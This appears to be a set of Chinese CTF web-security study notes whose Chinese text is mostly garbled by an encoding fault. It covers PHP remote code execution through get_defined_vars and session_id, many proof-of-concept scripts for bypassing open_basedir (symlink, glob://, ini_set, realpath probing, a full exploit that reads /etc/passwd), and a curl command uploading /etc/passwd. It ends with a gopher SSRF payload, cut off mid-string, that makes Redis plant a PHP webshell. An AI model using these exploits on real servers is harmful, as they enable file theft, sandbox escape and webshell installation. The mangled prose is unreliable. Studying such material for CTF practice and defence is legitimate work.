该函数会返å›å…¨å±€å˜é‡çš„值，如getã€postã€cookieã€fileæ•°æ®ï¼Œè¿”å›ä¸€ä¸ªå¤šç»´æ•°ç»„，所以需è¦ä½¿ç”¨ä¸¤æ¬¡å–数组值：




```
system(current(next(get_defined_vars())))
```

如何利用fileå˜é‡è¿›è¡Œrce呢？

>pythonå‘é€æ–‡ä»¶
>
>```python
>import requests
>
>if __name__ == "__main__":
>    url = 'http://192.168.0.103/norce/index.php'
>    # burp抓包查看文件包
>    proxy = {
>       'http': '127.0.0.1:8080',
>       'https': '127.0.0.1:8080'
>    }
>    # å•ä¸ªæ–‡ä»¶
>    # "uploadName": ("filename", "fileobject", "content-type", {"headers": "arg"})
>    r_file = {
>       'data': ('data', "1", "image/jpeg", {"aa": 'bb'})
>    }
>    # 多个文件
>    r_files = {
>        'data1': ('data_1', "1", "image/jpeg", {"aa": 'bb'}),
>        'data2': ('data_2', "2", "image/jpeg")
>    }
>    r_files_2 = [('image1', ('1.png', '1', 'image/png', {"aa": "bb"})),
>                 ('image2', ('2.png', '2', 'image/png'))]
>    r = requests.post(url=url, headers=header, files=r_files_2, proxies=proxy)
>    print(r.text)
>```
>
>

这里è¦æ³¨æ„的是，file数组在最å一个，需è¦end定ä½ï¼Œå› ä¸ºpayloadç›´æ¥æ”¾åœ¨æ–‡ä»¶çš„å称上，å†pos两次定ä½è·å¾—文件å

`print_r(system(pos(current(end(get_defined_vars())))))`


### session_id()

`session_id()`：å¯ä»¥ç”¨æ¥è·å–/设置 当å‰ä¼šè¯ ID。

session需è¦ä½¿ç”¨`session_start()`å¼€å¯ï¼Œç„¶åè¿”å›å‚æ•°ç»™`session_id()`

但是有一点é™åˆ¶ï¼šæ–‡ä»¶ä¼šè¯ç®¡ç†å™¨ä»…å…è®¸ä¼šè¯ ID 中使用以下字符：a-z A-Z 0-9 ,（逗å·ï¼‰å’Œ - å‡å·ï¼‰

但是`hex2bin()`函数å¯ä»¥å°†å六进制转æ¢ä¸ºASCII 字符，所以我们传入å六进制并使用`hex2bin()`å³å¯

`if(session_start())var_dump(eval(hex2bin(session_id())));`


>PHP7.3.4åªèƒ½ç”¨è¿™ç§æ–¹å¼æ¥å®ç°ï¼ŒPHP5å¯ä»¥ä¸ä½¿ç”¨if而是把`session_start()`嵌套在`session_id()`里é¢
>
>PHP7.3.4
>
>
>PHP5.4.45
>`var_dump(eval(hex2bin(session_id(session_start()))));`
>
>
>而PHP7.3.4使用嵌套方å¼`session_id()`就会返å›`false`
>
>
>åˆæ­¥åˆ¤å®šæ˜¯å› ä¸º`session_start()`å¼€å¯æˆåŠŸå会返å›1，导致`session_id()`内有å‚数，让PHP以为是è¦ä¿®æ”¹PHPSESSID，ä»è€Œå¯¼è‡´æ— æ³•è·å–到PHPSESSID

### getenv()

`getenv()` ：è·å–ç¯å¢ƒå˜é‡çš„值(在PHP7.1之åå¯ä»¥ä¸ç»™äºˆå‚æ•°)

所以该函数åªé€‚用äºPHP7.1之å版本，å¦åˆ™ä¼šå‡ºç°ï¼š`Warning: getenv() expects exactly 1 parameter, 0 given in ...`报错


  

`getenv()` å¯ä»¥ç”¨æ¥æ”¶é›†ä¿¡æ¯ï¼Œå®é™…利用一般无法达到命令执行效æœï¼Œå› ä¸ºé»˜è®¤çš„`php.ini`中，`variables_order`值为：`GPCS`

也就是说系统在定义PHP预定义å˜é‡æ—¶çš„顺åºæ˜¯ `GET,POST,COOKIES,SERVER`，没有定义`Environment(E)`，你å¯ä»¥ä¿®æ”¹`php.ini`文件的 `variables_order`值为你想è¦çš„顺åºï¼Œå¦‚：`"EGPCS"`。这时，`$_ENV`的值就å¯ä»¥å–得了


我们æ¥çœ‹ä¿®æ”¹å的值：（ç¯å¢ƒä¸åŒï¼Œç¯å¢ƒå˜é‡æ˜¾ç¤ºä¹Ÿä¸åŒï¼‰



对此我们å¯ä»¥åŠ ä»¥åˆ©ç”¨ï¼Œæ–¹æ³•åŒä¸Šæ–‡ï¼š


## PHP绕过open_basedir

[PHP绕过open_basedir列目录的研究 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

[PHP绕过open_basediré™åˆ¶æ“作文件的方法_lonmar~çš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/weixin_45551083/article/details/110109369)

[open_basedir绕过 - Vonçš„åšå®¢ | Von Blog (v0n.top)](https://www.v0n.top/2020/07/10/open_basedir绕过/)

**å…³äº`open_basedir`：**

pen_basedir是php.ini中的一个é…置选项，它å¯å°†ç”¨æˆ·è®¿é—®æ–‡ä»¶çš„活动范围é™åˆ¶åœ¨æŒ‡å®šçš„区域，å‡è®¾`open_basedir=/home/wwwroot/home/web1/:/tmp/`，那么通过web1访问æœåŠ¡å™¨çš„用户就无法è·å–æœåŠ¡å™¨ä¸Šé™¤äº†/home/wwwroot/home/web1/å’Œ/tmp/这两个目录以外的文件。
注æ„用open_basedir指定的é™åˆ¶å®é™…上是å‰ç¼€,而ä¸æ˜¯ç›®å½•å，举例æ¥è¯´: è‹¥"open_basedir = /dir/user", 那么目录 “/dir/user†和 "/dir/user1"都是å¯ä»¥è®¿é—®çš„。所以如æœè¦å°†è®¿é—®é™åˆ¶åœ¨ä»…为指定的目录，请用斜线结æŸè·¯å¾„å。

**å…³äºè½¯è¿æ¥ï¼š**

[Linux 命令之软è¿æ¥è¯¦è§£_linux 软è¿æ¥_LawsonAbsçš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/liu16659/article/details/83714066)

软链æ¥æ–‡ä»¶æœ‰ç±»ä¼¼äºWindowsçš„å¿«æ·æ–¹å¼ã€‚它å®é™…上是一个特殊的文件。在符å·è¿æ¥ä¸­ï¼Œæ–‡ä»¶å®é™…上是一个文本文件，其中包å«çš„有å¦ä¸€æ–‡ä»¶çš„ä½ç½®ä¿¡æ¯ã€‚

路径å¯ä»¥æ˜¯ä»»æ„文件或目录，å¯ä»¥é“¾æ¥ä¸åŒæ–‡ä»¶ç³»ç»Ÿçš„文件。在对符å·æ–‡ä»¶è¿›è¡Œè¯»æˆ–写æ“作的时候，系统会自动把该æ“作转æ¢ä¸ºå¯¹æºæ–‡ä»¶çš„æ“作，但删除链æ¥æ–‡ä»¶æ—¶ï¼Œç³»ç»Ÿä»…仅删除链æ¥æ–‡ä»¶ï¼Œè€Œä¸åˆ é™¤æºæ–‡ä»¶æœ¬èº«ã€‚

### 命令执行函数

ç”±äºopen_basedir的设置对system等命令执行函数是无效的，所以我们å¯ä»¥ä½¿ç”¨å‘½ä»¤æ‰§è¡Œå‡½æ•°æ¥è®¿é—®é™åˆ¶ç›®å½•ã€‚

当我们设置好open_basedir之å，通过`file_get_contents()`å»è¯»å–其他目录的文件，执行效æœå¦‚图


很æ˜æ˜¾æˆ‘们无法直æ¥è¯»å–open_basedir所规定以外的目录文件。æ¥ä¸‹æ¥é€šè¿‡`system()`æ¥å®ç°ç›¸åŒçš„功能



通过命令执行函数绕过open_basediræ¥è¯»å–flag，由äºå‘½ä»¤æ‰§è¡Œå‡½æ•°ä¸€èˆ¬éƒ½ä¼šè¢«é™åˆ¶åœ¨disable_function当中，所以我们需è¦å¯»æ‰¾å…¶ä»–的途径æ¥ç»•è¿‡é™åˆ¶ã€‚

### symlink()函数

我们先æ¥äº†è§£ä¸€ä¸‹`symlink()`函数

```
bool symlink ( string $target , string $link )
```

`symlink()`函数将建立一个指å‘targetçš„å为link的符å·é“¾æ¥ï¼Œå½“然一般情况下这个target是å—é™äºopen_basedir的。

我们å¯ä»¥é€šè¿‡symlink完æˆä¸€äº›é€»è¾‘上的绕过导致å¯ä»¥è·¨ç›®å½•æ“作文件。

open_bashediré…置：`open_basedir = /var/www/html/`

首先在/var/www/html/slink.php中 编辑slink.php的内容为

```php
<?php
  //phpinfo();
  highlight_file(__FILE__);
  mkdir("./a");
  chdir("./a");
  mkdir("./b");
  chdir("./b");
  chdir("../");
  chdir("../");
  symlink("./a/b","tmplink");
  symlink("tmplink/../../flag","exp");
  unlink("tmplink");
  mkdir("tmplink");
  echo file_get_contents("http://127.0.0.1/exp");
?>
```

æ¥ç€åœ¨/var/www/中新建一个flag文件内容为`flag{Hack!}`



正常读一下内容


执行刚æ‰å†™å¥½çš„脚本


æˆåŠŸè¯»å–到flag，绕过了open_opendirçš„é™åˆ¶

因为一开始`tmplink`是一个软è¿æ¥ï¼Œé“¾æ¥`./a/b/`也就是`/vat/html/www/a/b/`所以`symlink("tmplink/../../flag","exp");`è¿™æ¡è¯­å¥å°±ç›¸å½“äº`symlink("/vat/html/www/a/b/../../flag","exp");`符åˆopen_basedirçš„é™åˆ¶ï¼Œæ‰€ä»¥`exp`这个软è¿æ¥å°±æˆåŠŸå»ºç«‹äº†ï¼Œç„¶å删除软è¿æ¥`tmplink`，å†åˆ›å»º`tmplink`目录，此时语å¥å°±ç›¸å½“äº`symlink("/vat/html/www/tmplink/../../flag","exp");`，由äºè¿™æ—¶å€™`tmplink`å˜æˆäº†ä¸€ä¸ªçœŸå®å­˜åœ¨çš„文件夹所以`tmplink/../../`å˜æˆäº†flag所在的目录å³`/var/www/`，然åå†é€šè¿‡è®¿é—®ç¬¦å·é“¾æ¥æ–‡ä»¶`exp`å³å¯ç›´æ¥è¯»å–到`flag`文件的内容，当然，针对`symlink()`åªéœ€è¦å°†å®ƒæ”¾å…¥disable_functionå³å¯è§£å†³é—®é¢˜ï¼Œæ‰€ä»¥æˆ‘们需è¦å¯»æ±‚更多的方法。

### glob伪åè®®

glob是php自5.3.0版本起开始生效的一个用æ¥ç­›é€‰ç›®å½•çš„伪å议，由äºå®ƒåœ¨ç­›é€‰ç›®å½•æ—¶æ˜¯ä¸å—open_basedir的制约的，所以我们å¯ä»¥åˆ©ç”¨å®ƒæ¥ç»•è¿‡é™åˆ¶

```php
<?php
  $a = "glob:///var/www/";
  if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
      echo "filename:".$file."\n";
    }
    closedir($b);
  }
?>
```

#### glob://伪åè®®

glob://å议是php5.3.0以å一ç§æŸ¥æ‰¾åŒ¹é…的文件路径模å¼ã€‚
官方给出了一个示例用法

```php
<?php
// å¾ªç¯ ext/spl/examples/ 目录里所有 *.php 文件
// 并打å°æ–‡ä»¶å和文件尺寸
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");
foreach($it as $f) {
    printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
}
?
```

glob://伪å议需è¦ç»“åˆå…¶ä»–函数方法æ‰èƒ½åˆ—目录，å•çº¯ä¼ å‚glob://是没åŠæ³•åˆ—目录的。

#### DirectoryIterator+glob://

DirectoryIterator是php5中å¢åŠ çš„一个类，为用户æ供一个简å•çš„查看目录的æ¥å£ï¼Œåˆ©ç”¨æ­¤æ–¹æ³•å¯ä»¥ç»•è¿‡open_basediré™åˆ¶ã€‚(但是似ä¹åªèƒ½ç”¨äºLinux下)
脚本差ä¸å¤šå¦‚下:

```php
<?php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

å¯ä»¥çœ‹åˆ°,æˆåŠŸåˆ—出目录:


当传入的å‚数为glob:///\*时会列出根目录下的文件，传入å‚数为glob://\*时会列出open_basedirå…许目录下的文件。

#### scandir()+glob://

这是看TCTF WP里é¢çš„一ç§æ–¹æ³•ï¼Œæœ€ä¸ºç®€å•æ˜äº†: 代ç å¦‚下:

```
<?php
var_dump(scandir('glob:///*'));
>
```


è¿™ç§æ–¹æ³•ä¹Ÿåªèƒ½åˆ—出根目录和open_basedirå…许目录下的文件。

#### opendir()+readdir()+glob://

脚本如下:

```
<?php
if ( $b = opendir('glob:///*') ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```


åŒç†ï¼Œè¿™ç§æ–¹æ³•ä¹Ÿåªèƒ½åˆ—出根目录和open_basedirå…许目录下的文件。
å¯ä»¥çœ‹åˆ°ï¼Œä¸Šé¢ä¸‰ç§å’Œglob://相关的å议，最大的缺陷就是åªèƒ½åˆ—目录，而且还åªèƒ½åˆ—根目录和open_basedirå…许目录的内容。

#### ini_set()绕过

>`ini_set()`函数：
>
>ini_set()用æ¥è®¾ç½®php.ini的值，在函数执行的时候生效，脚本结æŸå，设置失效。无需打开php.ini文件，就能修改é…置。函数用法如下:
>
>```
>ini_set ( string $varname , string $newvalue ) : string
>```
>
>- varname是需è¦è®¾ç½®çš„值
>- newvalue是设置æˆä¸ºæ–°çš„值
>- æˆåŠŸæ—¶è¿”å›æ—§çš„å€¼ï¼Œå¤±è´¥æ—¶è¿”å› FALSE。

当å‰æˆ‘们处在/var/www/html文件夹下，对应的POC为:

```php
<?php
mkdir('Von');  //创建一个目录Von
chdir('Von');  //切æ¢åˆ°Von目录下
ini_set('open_basedir','..');  //把open_basedir切æ¢åˆ°ä¸Šå±‚目录
chdir('..');  //以下这三步是把目录切æ¢åˆ°æ ¹ç›®å½•
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当äºæ²¡æœ‰è®¾ç½®open_basedir)
echo file_get_contents('/etc/passwd');  //读å–/etc/passwd
```

åŸç†æ¶‰åŠåˆ°äº†PHP的底层å®ç°ï¼Œè¾ƒä¸ºå¤æ‚，具体å¯ä»¥å‚考这几篇文章。

[bypass open_basedir的新方法 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4720)

[ä»PHP底层看open_basedir bypass · sky's blog (skysec.top)](https://skysec.top/2019/04/12/ä»PHP底层看open-basedir-bypass/#poc测试)

#### 利用SplFileInfo::getRealPath()类方法绕过

`SplFileInfo`类是PHP5.1.2之å引入的一个类，æ供一个对文件进行æ“作的æ¥å£ã€‚我们在`SplFileInfo`çš„æ„造函数中传入文件相对路径，并且调用`getRealPath()`å³å¯è·å–文件的ç»å¯¹è·¯å¾„。
这个方法有个特点：完全没有考虑open_basedir。在传入的路径为一个ä¸å­˜åœ¨çš„路径时，会返å›false；在传入的路径为一个存在的路径时，会正常返å›ç»å¯¹è·¯å¾„。脚本如下:

```php
<?php
$info = new SplFileInfo('/etc/passwd');
var_dump($info->getRealPath());
?>
```

当传入的路径存在时，返å›è·¯å¾„。

当传入的路径ä¸å­˜åœ¨æ—¶ï¼Œè¿”å›False。

但是如æœæˆ‘们完全ä¸çŸ¥é“路径的情况下就和暴力猜解无异了，时间花费æ高。在Windows系统下å¯ä»¥åˆ©ç”¨`<>`æ¥åˆ—出所需目录下的文件，有Pç¥çš„POC如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
$basedir = 'D:/test/';
$arr = array();
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789';
for ($i=0; $i < strlen($chars); $i++) { 
    $info = new SplFileInfo($basedir . $chars[$i] . '<><');
    $re = $info->getRealPath();
    if ($re) {
        dump($re);
    }
}
function dump($s){
    echo $s . '<br/>';
    ob_flush();
    flush();
}
?>
```

当然由äº<><是Windows特有的通é…符。所以该POCåªèƒ½åœ¨Windowsç¯å¢ƒä¸‹ä½¿ç”¨ã€‚Linux下åªèƒ½æš´åŠ›ç ´è§£ã€‚

>在windows中å¯ä»¥ä½¿ç”¨é€šé…符“* â€ã€â€œ? â€æŸ¥æ‰¾æ–‡ä»¶ï¼Œå¯¹äºç›¸åŒå­—符开头的å•è¯å’Œç›¸åŒå­—符结尾的å•è¯å¯ä»¥ç”¨â€œ<â€å’Œâ€œ >â€é€šé…符查找å•è¯ã€‚
>
>1. 如æœè¦æŸ¥æ‰¾ï¼š ä»»æ„å•ä¸ªå­—符 ：
>     键入 ? 例如，s?t å¯æŸ¥æ‰¾â€œsatâ€å’Œâ€œsetâ€â€¦â€¦ã€‚
>2. ä»»æ„字符串 :
>     键入 * 例如，s*d å¯æŸ¥æ‰¾â€œsadâ€å’Œâ€œstartedâ€â€¦â€¦ã€‚
>3. å•è¯çš„开头
>     键入 < 例如，<(inter) 查找“interestingâ€å’Œâ€œinterceptâ€â€¦â€¦ï¼Œä½†ä¸æŸ¥æ‰¾â€œsplinteredâ€ã€‚
>4. å•è¯çš„结尾
>     键入 > 例如，(in)> 查找“inâ€å’Œâ€œwithinâ€â€¦â€¦ï¼Œä½†ä¸æŸ¥æ‰¾â€œinterestingâ€
>
>linux通é…符
>
>

#### realpath()绕过

`realpath()`函数和`SplFileInfo::getRealPath()`作用类似。åŒæ ·æ˜¯å¯ä»¥å¾—到ç»å¯¹è·¯å¾„。函数定义如下:

```
realpath ( string $path ) : string
```

当我们传入的路径是一个ä¸å­˜åœ¨çš„文件（目录）时，它将返å›false；当我们传入一个ä¸åœ¨open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。 

所以我们å¯ä»¥é€šè¿‡è¿™ä¸ªç‰¹ç‚¹ï¼Œæ¥è¿›è¡Œç›®å½•çš„猜解。举个例å­ï¼Œæˆ‘们需è¦çŒœè§£æ ¹ç›®å½•ï¼ˆä¸åœ¨open_basedir中）下的所有文件，åªç”¨å†™ä¸€ä¸ªæ•æ‰php错误的函数`err_handle()`。当猜解æŸä¸ªå­˜åœ¨çš„文件时，会因抛出错误而进入`err_handle()`，当猜解æŸä¸ªä¸å­˜åœ¨çš„文件时，将ä¸ä¼šè¿›å…¥`err_handle()`。

åŒæ ·ï¼Œå¯¹äºè¿™ä¸ªå‡½æ•°ï¼Œæˆ‘们在Windows下ä»ç„¶èƒ½å¤Ÿä½¿ç”¨é€šé…符<>æ¥åˆ—目录，有Pç¥çš„脚本如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```

`realpath()`å’Œ`SplFileInfo::getRealPath()`的区别在äºï¼Œ`realpath()`åªæœ‰åœ¨å¯ç”¨äº†open_basedir()é™åˆ¶çš„情况下æ‰èƒ½ä½¿ç”¨è¿™ç§æ€è·¯çˆ†ç›®å½•ï¼Œè€Œ`SplFileInfo::getRealPath()`å¯ä»¥æ— è§†æ˜¯å¦å¼€å¯open_basedir进行列目录(当然，没有开å¯open_basedir也没必è¦èŠ±è¿™ä¹ˆå¤§çš„功夫æ¥åˆ—目录了)

#### imageftbbox()绕过

GD库imageftbbox/imagefttext列举目录

GD库一般是PHP必备的扩展库之一，当中的`imageftbbox()`函数也å¯ä»¥èµ·åˆ°åƒ`realpath()`一样的列目录效æœã€‚
å…¶æ€æƒ³ä¹Ÿå’Œopen_basedir类似。这个函数第三个å‚数是字体的路径。我å‘ç°å½“这个å‚数在open_basedir外的时候，当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)â€é”™è¯¯ã€‚但当文件ä¸å­˜åœ¨çš„时候会抛出“Invalid font filenameâ€é”™è¯¯ã€‚ 也就是说，我们å¯ä»¥é€šè¿‡æŠ›å‡ºé”™è¯¯çš„具体内容æ¥åˆ¤æ–­ä¸€ä¸ªæ–‡ä»¶æ˜¯å¦å­˜åœ¨ã€‚这个方法和realpath有相似性，都会抛出open_basedir的错误。

有POC如下:

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

这个方法报错的时候并ä¸ä¼šæŠŠçœŸæ­£çš„路径爆出æ¥ï¼Œè¿™ä¹Ÿæ˜¯å…¶ä¸realpath的最大ä¸åŒä¹‹å¤„，用这ç§æ–¹æ³•åªèƒ½ä¸€ä½ä¸€ä½çŒœè§£åˆ—目录

而且和上é¢çš„两ç§æ–¹æ³•ç±»ä¼¼ï¼Œç”±äºéƒ½ä½¿ç”¨äº†Windows的通é…符，所以这些POC都åªèƒ½åœ¨Windows下使用，Linux下åªèƒ½æš´åŠ›çŒœè§£ã€‚

#### bindtextdomain()绕过

bindtextdomain是php下绑定domain到æŸä¸ªç›®å½•çš„函数。用法如下:

```
bindtextdomain ( string $domain , string $directory ) : string
```

`bindtextdomain`是php下绑定domain到æŸä¸ªç›®å½•çš„函数。具体这个domain是什么我也没具体用过，åªæ˜¯åœ¨ä¸€äº›l10n应用中å¯èƒ½ç”¨åˆ°çš„方法（相关函数textdomainã€gettextã€setlocale，说æ˜ï¼šhttp://php.net/manual/en/function.gettext.php）

所以第一个å‚æ•°éšä¾¿ä¼ éƒ½è¡Œï¼Œä¸»è¦å‡ºåœ¨ç¬¬äºŒä¸ªå‚数上，当第二个å‚æ•°å³ç›®å½•å­˜åœ¨æ—¶ï¼Œä¼šè¿”å›ç›®å½•çš„路径，当目录ä¸å­˜åœ¨æ—¶ï¼Œä¼šè¿”å›False。故有脚本如下:

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

我们也å¯ä»¥é€šè¿‡è¿”å›å€¼çš„ä¸åŒæ¥çŒœè§£ã€åˆ—举æŸä¸ªç›®å½•ã€‚

但很大的鸡肋点在，windows下默认是没有这个函数的，而在linux下ä¸èƒ½ä½¿ç”¨é€šé…符进行目录的猜解，所以显得很鸡肋。

当然，在万无退路的时候进行暴力猜解目录，也ä¸å¤±ä¸ºä¸€ä¸ªè¿˜ç®—行的方法。

### EXP

[php5全版本绕过open_basedir读文件脚本 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/other/bypass-open-basedir-readfile.html)

```php
<?php
/*
* by phithon
* From https://www.leavesongs.com
* detail: http://cxsecurity.com/issue/WLB-2009110068
*/
header('content-type: text/plain');
error_reporting(-1);
ini_set('display_errors', TRUE);
printf("open_basedir: %s\nphp_version: %s\n", ini_get('open_basedir'), phpversion());
printf("disable_functions: %s\n", ini_get('disable_functions'));
$file = str_replace('\\', '/', isset($_REQUEST['file']) ? $_REQUEST['file'] : '/etc/passwd');
$relat_file = getRelativePath(__FILE__, $file);
$paths = explode('/', $file);
$name = mt_rand() % 999;
$exp = getRandStr();
mkdir($name);
chdir($name);
for($i = 1 ; $i < count($paths) - 1 ; $i++){
    mkdir($paths[$i]);
    chdir($paths[$i]);
}
mkdir($paths[$i]);
for ($i -= 1; $i > 0; $i--) { 
    chdir('..');
}
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
            if(($file!='.') && ($file!='..')){delfile($name);}
        } 
        @closedir($mydir);
        @chmod($deldir,0777);
        return @rmdir($deldir) ? true : false;
    }
}

function File_Str($string)
{
    return str_replace('//','/',str_replace('\\','/',$string));
}

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}
```

如我们欲读å–`/etc/passwd`。其å®åŸç†å°±æ˜¯åˆ›å»ºä¸€ä¸ªé“¾æ¥æ–‡ä»¶`x`，用相对路径指å‘`a/a/a/a`，å†åˆ›å»ºä¸€ä¸ªé“¾æ¥æ–‡ä»¶exp指å‘`x/../../../etc/passwd`。其å®æŒ‡å‘的就是`a/a/a/a/../../../etc/passwd`，其å®å°±æ˜¯`./etc/passwd`。这时候删除`x`，å†åˆ›å»ºä¸€ä¸ª`x`目录，但exp还是指å‘`x/../../../etc/passwd`，所以就æˆåŠŸè·¨åˆ°`/etc/passwd`了。 

ç²¾å就是这四å¥ï¼š 

```
<?php
symlink("abc/abc/abc/abc","tmplink"); 
symlink("tmplink/../../../etc/passwd", "exploit"); 
unlink("tmplink"); 
mkdir("tmplink");
```

我们访问 http://xxx/exp ，如æœæœåŠ¡å™¨æ”¯æŒé“¾æ¥æ–‡ä»¶çš„访问，那么就能读到`/etc/passwd`。 

其中并没有任何æ“作触å‘open_basedir，但达到的效æœå°±æ˜¯ç»•è¿‡äº†open_basedir读å–ä»»æ„文件。错误ä¸åœ¨php，但åˆä¸çŸ¥é“把错误归结到è°å¤´ä¸Šï¼Œæ‰€ä»¥php一直未管这个问题。 

## æ— æ•°å­—å­—æ¯RCE


## PHP WebShellå…æ€


## é常è§åè®®

[SecMap - é常è§å议大礼包 - Tr0y's Blog](https://www.tr0y.wang/2021/05/17/SecMap-é常è§å议大礼包/#data)


## SSRFå’ŒGopher

<u>*awctf --- i_am_eeeeeshili*</u>

<u>*buuctf --- [De1CTF 2019]SSRF Me*</u>

### curl命令行工具

GET请求

```
curl http://127.0.0.1
```

POST请求

```
curl -x POST -d "a=1" http://127.
```

æºå¸¦Cookie

```
curl -cookie "Cookie=xxx" http://xxx
```

上传文件

```
curl -F "file=@/etc/passwd" http://127.0.0.1
```

### SSRF中主è¦çš„åè®®

1. fileåè®®

   fileå议主è¦ç”¨äºè®¿é—®æœ¬åœ°è®¡ç®—机中的文件，命令格å¼ä¸ºï¼š

   ```
   file://文件ç»å¯¹è·¯å¾„
   ```

   

2. Gopheråè®®

   https://github.com/tarunkant/Gopherus

   [Gopheråè®®_0ak1eyçš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/qq_43665434/article/details/115255263)

   ```
   URL:gopher://<host>:<port>/<gopher-path>_åæ¥TCPæ•°æ®æµ
   
   gopher的默认端å£æ˜¯70
   如æœå‘èµ·post请求，å›è½¦æ¢è¡Œéœ€è¦ä½¿ç”¨%0d%0a，如æœå¤šä¸ªå‚数，å‚数之间的&也需è¦è¿›è¡ŒURLç¼–ç 
   ```

3. dictåè®®

   è¯å…¸ç½‘络åè®®

   [SSRFæ¼æ´ä¸­ä½¿ç”¨åˆ°çš„其他åè®®_0ak1eyçš„åšå®¢-CSDNåšå®¢](https://blog.csdn.net/qq_43665434/article/details/115434528)

   ```
   dict://ip:port/åæ¥TCP/IPæ•°æ®é‡
   
   å‘æœåŠ¡å™¨çš„端å£è¯·æ±‚为ã€å‘½ä»¤:å‚数】，并在末尾自动补上\r\n(CRLF)，为æ¼æ´åˆ©ç”¨å¢åŠ äº†ä¾¿åˆ©
   dictå议执行命令è¦ä¸€æ¡ä¸€æ¡æ‰§è¡Œ
   ```

### SSRF打redis

<u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher


```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%